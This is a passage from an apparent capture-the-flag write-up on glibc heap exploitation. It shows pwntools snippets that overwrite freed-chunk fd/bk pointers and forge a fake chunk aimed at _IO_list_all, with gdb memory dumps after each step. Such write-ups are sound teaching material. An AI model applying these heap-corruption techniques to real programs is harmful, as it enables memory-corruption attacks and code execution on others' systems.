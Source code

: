 ```py

    IO_list  = libc_base + libc.symbols['_IO_list_all']
    bk = heap_base + 0x1960
    fd = heap_base + 0x1440 - 0x8
    edit('y',7,p64(fd) + p64(bk))
    gdb.attach(io)

```

And see how the chunks look like ->

```sh
0000| 0x561a4bb48150 --> 0x561a4d2e4520 --> 0xa62626262 ('bbbb\n')
0008| 0x561a4bb48158 --> 0x1 
0016| 0x561a4bb48160 --> 0x561a4d2e4f40 --> 0xa64646464 ('dddd\n')
0024| 0x561a4bb48168 --> 0x1 
0032| 0x561a4bb48170 --> 0x561a4d2e5960 --> 0xa66666666 ('ffff\n')                   -> This is chunk 3 , our supposed fake chunk
0040| 0x561a4bb48178 --> 0x1 
0048| 0x561a4bb48180 --> 0x561a4d2e5e70 --> 0xa67676767 ('gggg\n')
0056| 0x561a4bb48188 --> 0x1 
0064| 0x561a4bb48190 --> 0x561a4d2e6380 --> 0xa68686868 ('hhhh\n')
0072| 0x561a4bb48198 --> 0x1 
0080| 0x561a4bb481a0 --> 0x561a4d2e5450 --> 0x561a4d2e4a20 --> 0x0 
0088| 0x561a4bb481a8 --> 0x1 
0096| 0x561a4bb481b0 --> 0x561a4d2e4a30 --> 0x561a4d2e5960 --> 0xa66666666 ('ffff\n') -> Clean , we overwrote fd with chunk 3's addr
0104| 0x561a4bb481b8 --> 0x1 
0112| 0x561a4bb481c0 --> 0x561a4d2e4010 --> 0x7fdc8f575b78 --> 0x561a4d2e6880 --> 0x0 

```

Now we edit chunk 3 and fake our chunk there.

We create our fake chunk in our chunk 3 , so that we can overwrite the size of the next chunk.

```py

    bk = IO_list - 0x10
    fd = heap_base + 0xa20
    edit('y',3,p64(0) + p64(0x511) + p64(fd) + p64(bk))
    gdb.attach(io)

```

Let's see how chunk 3 looks like now.

```sh

0x561a3e08d950:	0x0000000000000510	0x0000000000000510 
0x561a3e08d960:	0x0000000000000000	0x0000000000000511 -> Fake chunk header
0x561a3e08d970:	0x0000561a3e08ca20	0x00007fc7d9e04510 -> fd and bk set appropriately
0x561a3e08d980:	0x000000000000000a	0x0000000000000000

```
